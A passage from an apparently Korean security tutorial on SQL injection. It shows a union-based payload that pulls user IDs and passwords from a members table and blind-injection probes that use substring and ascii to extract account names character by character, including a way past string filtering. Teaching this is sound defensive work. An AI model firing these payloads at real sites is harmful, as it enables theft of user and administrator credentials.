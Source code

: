 ![](../assets/2023-04-03-SQLI/8.png)

<center><b>< 그림. 8 ></b></center>

```sql
` union select 1,2,3,user_id,passwd from members --
```

 예시로 위와 같은 SQL문을 삽입 할 경우 계정 정보에도 접근이 가능하다. 또한 **< 그림. 8 >**에서 확인 가능 하듯 `adminid`와 `adminpwd` 등의 정보가 존재한다면 관리자 계정도 접근이 가능할 가능성이 높아진다.

## 2-3. Blind-based Sqli

 참/거짓을 이용 하여 정보를 유추하는 방법이다.

```sql
창녕읍` and 1=1 --
-- True 를 유도하는 SQL문
창녕읍` and 1=2 --
-- False 를 유도하는 SQL문
```

### `substring()` 메서드

```
substring({문자열}, {커서 위치 x}, {읽을 문자열 수 y})

substring('admin', 1, 3)
-- return: 'adm'
```

`substring('admin',1,1)` -> 첫번째 커서로부터 1글자를 의미. 결과는 `a`

```sql
창녕읍` and 'a' = substring((select top 1 user_id from members),1,1) --
-- members table의 user_id column 중 'a'로 시작하는 첫번째를 가져오기

창녕읍` and char(111) = substring((select top 1 user_id from members),1,1) --
창녕읍` and 111 = ascii(substring((select top 1 user_id from members),1,1)) --
-- 문자열 필터링이 걸려 있는 경우 위와 같이 ascii 코드를 이용하여 질의 가능
```
